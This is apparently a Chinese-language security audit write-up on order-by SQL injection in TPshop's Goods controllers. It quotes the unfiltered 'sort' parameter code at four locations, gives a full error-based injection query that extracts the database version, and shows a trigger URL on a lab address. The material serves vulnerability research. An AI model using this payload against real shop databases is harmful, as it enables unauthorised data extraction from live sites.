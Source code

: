 **search() 分析：**

```
257-258 行
$sort = I('sort', 'goods_id'); // 排序
$sort_asc = I('sort_asc', 'asc'); // 排序

319 行
$goods_list = M('goods')->where(['is_on_sale' => 1, 'goods_id' => ['in', implode(',', $filter_goods_id)]])->order("$sort $sort_asc")->limit($page->firstRow . ',' . $page->listRows)->select();
```

不论正向排序还是反向排序，依据的字段名均没有采用过滤，也没有判断字段名是否存在，直接将输入带入SQL order语句；

在order by处出现注入，可以采用报错注入；

EXP对应的完整SQL语句为：

```
SELECT * FROM `tp_goods` WHERE `is_on_sale` = :where_is_on_sale AND `goods_id` IN (:where_goods_id_in_0,:where_goods_id_in_1) ORDER BY (select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select version()),0x3a,0x3a,floor(rand()*2))) asc LIMIT 0,20 
```

**其他几处：**全局搜索 `order("$sort $sort_asc")`，算上上面的一共有四处；

application/home/controller/Goods.php：

```
197 行 goodsList()
$goods_list = M('goods')->where("goods_id","in", implode(',', $filter_goods_id))->order("$sort $sort_asc")->limit($page->firstRow.','.$page->listRows)->select();

319 行 search()
$goods_list = M('goods')->where(['is_on_sale' => 1, 'goods_id' => ['in', implode(',', $filter_goods_id)]])->order("$sort $sort_asc")->limit($page->firstRow . ',' . $page->listRows)->select();
```

application/mobile/controller/Goods.php：

```
101 行 goodsList()
$goods_list = M('goods')->where("goods_id","in", implode(',', $filter_goods_id))->order("$sort $sort_asc")->limit($page->firstRow.','.$page->listRows)->select();

410 行 search()
$goods_list = M('goods')->where("goods_id", "in", implode(',', $filter_goods_id))->order("$sort $sort_asc")->limit($page->firstRow.','.$page->listRows)->select();
```

只是区分了PC端和移动端，这样

方法goodsList()中同样属于order未过滤导致SQL报错注入；

**触发点：**`http://192.168.215.136/Home/Goods/goodsList/id/1/sort/`

![TPshop_3.png](/assets/images/2017-12-06/205914779.png)


[Go0s]: ~ 